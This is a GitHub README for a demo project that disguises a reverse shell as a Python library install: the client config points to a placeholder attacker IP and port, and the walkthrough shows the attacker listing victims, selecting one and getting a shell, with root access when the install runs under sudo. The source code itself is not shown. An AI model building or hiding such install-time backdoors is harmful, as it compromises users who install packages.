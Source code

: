 # Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

First, you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
We will be use with two machine, the first one will be Parrot is for the attacker and the second, Kali Linux for the target.


```
python3 server.py
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)

Now let's install our library on the client
```bash
python3 my_install.py 
```
![צילום מסך 2024-01-25 081905](https://github.com/ronch11/Nevertrust/assets/71279601/c0f5c945-c830-47cb-81ad-5cb2a8d004ea)

![צילום מסך 2024-01-25 082236](https://github.com/ronch11/Nevertrust/assets/71279601/33d66ea4-6800-403f-946b-b18aa26f9a2b)


Now let's check the connction between the sides

we can see that connction success
![צילום מסך 2024-01-25 082621](https://github.com/ronch11/Nevertrust/assets/71279601/f553ad0a-14e1-4f89-9a1e-71149e671a3b)


For see all targets we can use with the command list
![צילום מסך 2024-01-25 083157](https://github.com/ronch11/Nevertrust/assets/71279601/957d25c4-64be-4f98-9372-399362f8ad6a)

To choose the target we use with the command use X
X - will be the choosen index  
![צילום מסך 2024-01-25 083413](https://github.com/ronch11/Nevertrust/assets/71279601/0133d92a-2193-4101-babc-6e7699e8c95c)

Now we can see that we are in the shell of the target!
Let's cheek the IP of the target
![צילום מסך 2024-01-25 084225](https://github.com/ronch11/Nevertrust/assets/71279601/6d212c82-3fe2-42b7-a3b4-d445915f6006)

 We can see that we get the same IP address on the Parrot shell
![צילום מסך 2024-01-25 084416](https://github.com/ronch11/Nevertrust/assets/71279601/a48de220-54ae-49c7-8e5f-24dc1c82101f)

We run the installion on the client without using sudo, so we are the permissions of the currect user
![צילום מסך 2024-01-25 085109](https://github.com/ronch11/Nevertrust/assets/71279601/edbbb725-2b00-40cf-9642-88ecb2ac6bf8)

Now let's run the install with sudo
```bash
sudo python3 my_install.py 
```
![צילום מסך 2024-01-25 085850](https://github.com/ronch11/Nevertrust/assets/71279601/632a0170-091b-4301-9045-5d5f2d8ddadd)

Now let's check wich prmition we are have
![צילום מסך 2024-01-25 085827](https://github.com/ronch11/Nevertrust/assets/71279601/14c8fef0-3976-4d59-9902-46b0d3a4316d)
